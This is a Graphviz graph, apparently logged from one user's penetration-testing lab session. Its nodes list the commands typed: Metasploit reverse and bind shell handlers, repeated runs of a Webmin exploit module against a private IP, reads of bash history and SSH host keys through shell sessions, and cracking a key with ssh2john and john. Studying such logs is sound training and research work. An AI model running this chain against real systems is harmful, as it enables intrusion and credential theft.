// creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 A0 M0 A1 "]
	10 [label="setg A6 "]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	17 [label="setg LHOST 10.1.135.83 A6 M6 "]
	20 [label="setg LPORT 28605 A6 "]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 V6 "]
	27 [label="set THREADS 24 V6 "]
	28 [label="set PORTS 50000 V6 "]
	29 [label="run -j A8 M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	31 [label="show exploits V8 "]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 V6 "]
	35 [label="set THREADS 24 V6 "]
	36 [label="set PORTS 50000 V6 "]
	37 [label="run -j V8 "]
	38 [label="msfconsole A2 M2 "]
	39 [label="set RHOSTS 172.18.1.5 V6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit V8 "]
	44 [label="set exploit 2019-15107 V8 "]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	47 [label="use exploit/multi/handler V8 "]
	48 [label="set LHOST 0.0.0.0 V6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j V8 "]
	53 [label="use exploit/47230 V8 "]
	54 [label="set RHOSTS 172.18.1.5 V6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 V6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	60 [label="set RPORT 80 V6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j V8 "]
	63 [label="use exploit/47230 V8 "]
	64 [label="set RHOSTS 172.18.1.5 V6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 V6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	70 [label="set RPORT 10000 V6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j V8 "]
	75 [label="use exploit/47230 V8 "]
	76 [label="set RHOSTS  V6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 V6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	82 [label="set RPORT 10000 V6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j V8 "]
	85 [label="use exploit/multi/handler V8 "]
	86 [label="set LHOST 10.1.135.83 V6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j V8 "]
	93 [label="use exploit/47230 V8 "]
	94 [label="set RHOSTS 172.18.1.5 V6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 V6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	100 [label="set RPORT 10000 V6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j V8 "]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	110 [label="sessions 3 -c ls A10 "]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt A9 M9 A11 A12 A17 "]
	124 [label="sessions 3 -c ls A10 "]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history A10 M10 "]
	133 [label="sessions -c find -name *.bash_history V10 "]
	135 [label="sessions -c ls A10 "]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history A11 M11 A12 A17 "]
	146 [label="sessions 3 -c find -name ssh V10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh A16 M16 "]
	156 [label="ssh -i /root/desktop/ssh V16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 V16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp A15 M15 A16 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa V10 "]
	180 [label="sessions -c find -name ecdsa_key V10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py A13 M13 A14 A16 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp V13 "]
	187 [label="python ssh2john.py --help V13 "]
	188 [label="python ssh2john.py V13 "]
	189 [label="python ssh2john.py V13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp V13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john A14 M14 "]
	192 [label="john --wordlist /root/Desktop/john V14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john V14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 V16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp V15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 10 [constraint=false]
	10 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 20 [constraint=false]
	20 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 110 [constraint=false]
	110 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
